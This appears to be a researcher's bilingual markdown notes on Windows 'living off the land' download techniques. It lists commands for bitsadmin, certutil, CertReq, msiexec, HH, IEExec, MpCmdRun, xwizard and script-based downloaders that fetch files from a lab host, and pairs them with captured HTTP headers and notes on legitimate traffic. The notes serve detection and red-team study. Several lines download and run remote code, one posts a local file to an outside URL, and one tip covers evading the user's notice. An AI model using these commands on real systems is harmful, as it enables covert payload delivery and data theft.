


# Living off the land

## Downloader

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

或参考 `Micro8` 的方法

```powershell
bitsadmin /rawreturn /transfer down "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
```

[***pcap***](/assets/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```


目前从流量中看到的, 以新版edge浏览器下载chrome系插件为主, uri样例:

`edgedl/release2/chrome_component/APXXLABkvVhhXtYF5CAJK8E_43/G7yvLIv4RYlDG8Af2QDjoQ`


### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***](/assets/pcap/CertReq.pcap)

```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```

***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe

```powershell
certutil.exe -urlcache -split -f http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Certutil.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
Host: 192.168.220.125
```

***Note*** 也有人遇到UA为 `CertUtil URL Agent` 的情况


目前此类流量中的正常使用情况有:

1. 通过 1.1.1.3/ac_portal/proxy.html 下载windows更新
2. 通过内网windows升级服务器, 下载 windowsupdate.com 的升级补丁
3. 证书吊销列表 crl 文件下载
4. /disable/disable.htm 的指令


### 4. Desktopimgdownldr.exe

```powershell
desktopimgdownldr.exe /lockscreenurl:http://192.168.220.125/white_process/call_calc.exe /eventName:hello
```

[***pcap***](/assets/pcap/desktopimgdownldr.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

***Note.1*** When used for its intended purpose, it downloads and saves images to the following default path:

```powershell
C:\windows\Personalization\LockScreenImage\LockScreenImage_%random%.jpg
```

***Note.2*** The system uses BITS to download Windows updates and Microsoft Defender updates, among other things.

***Tips***

*When running as Administrator, the binary sets and overrides the user’s lock screen image. However, as I show further below, by deleting the registry right after running the binary, the override can be avoided. In addition, desktopimgdownldr.exe does not change the image while the computer is in a locked screen, so an attacker can run it without the user noticing at all.*

### 5. Msiexec.exe

```powershell
msiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Msiexec.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Windows Installer
Host: 192.168.220.125
```

***Note*** whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论



### 6. HH

Open the target PowerShell script with HTML Help.

```powershell
HH.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***](/assets/pcap/HH.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
Accept-Language: zh-CN
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note*** 下载后会直接打开, 目前没有找到能做隐藏的参数

### 7. IEExec *Microsoft IE Execute shell*

download and execute files from remote server

```powershell
C:\Users\test\Desktop>c:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***](/assets/pcap/IEExec.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note*** IEExec 在 .net 目录下, 需要找一下

### 8. MpCmdRun

```powershell
"c:\Program Files\Windows Defender\MpCmdRun.exe" -DownloadFile -url http://192.168.220.125/white_progress/test -path c:\test.exe
```

***Note***

*根据下面 reference 的说法, MpCmdRun 在 `4.18.2008.9` 版本中引入了 `-DownloadFile` 参数, 然而手里没有这个版本的环境, 只有一个`4.18.2010.7`的有这个参数*

*但是, 对于这个版本的windows defender, 直接把通过 `MpCmdRun` 下载的行为视为危险行为, 行为加白或关掉实时防护, 直接报参数错误*

*如果这是微软及时封堵的结果, 那可利用的价值和情况就不大了. 目前先挖个坑(无底坑), 后面遇到`4.18.2008.9`版本的`windows defender`再做测试*



### 9. Xwizard

```powershell
C:\Users\test\Desktop>xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /z http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Xwizard.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

***Note***
*虽然可以下载成功, 但是执行的时候, 会报 `客户端配置文件无效`, 挖坑*

### 10. Cscript

```vba
set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open"get",wsh.arguments( 0),0:w.send:
a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

```powershell
cscript downfile.vbs http://192.168.220.125/white_process/test test.txt
```

[***pcap***](/assets/pcap/cscript.pcap)

```http
GET /white_process/test HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

### 11. JS

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```

```powershell
cscript /nologo downfile.js http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/js.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.220.125
```

### 12. Powershell-wget/curl

较新版本powershell中, 添加了 curl/wget 的实现, 但是两者所用ua仍为 powershell

```powershell
powershell /c wget http://xxxxxx.xxxx.xx
powershell /c curl http://xxxxxx.xxxx.xx
```

[***pcap***](/assets/pcap/powershell_wget.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; zh-CN) WindowsPowerShell/5.1.17763.316
Host: 192.168.220.125
Connection: Keep-Alive
```

## Reference

- [lolbas/#download](https://lolbas-project.github.io/#/download)
- [Exe_ADS_Methods.txt](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

### downloader

#### certreq

- [dtm.uk](https://dtm.uk/certreq/)

#### certutil

- [3gstudent](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
- [wsygoogol](https://wsygoogol.github.io/2018/12/17/%E6%94%BB%E5%87%BB%E8%80%85%E5%88%A9%E7%94%A8CertUtil-exe%E6%A4%8D%E5%85%A5%E6%81%B6%E6%84%8F%E8%BD%AF%E4%BB%B6/)

#### Msiexec

- [3gstudent](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)
- [Micro8](https://www.bookstack.cn/read/Micro8/Chapter1-81-90-86_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Msiexec%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%85%AB%E5%AD%A3%E8%A1%A5%E5%85%85.md)

#### desktopimgdownldr

- [sentinelone](https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/)

#### MpCmdRun

- [TheWindowsClub](https://news.thewindowsclub.com/microsoft-defender-can-be-used-to-directly-download-a-file-from-the-internet-102781/)
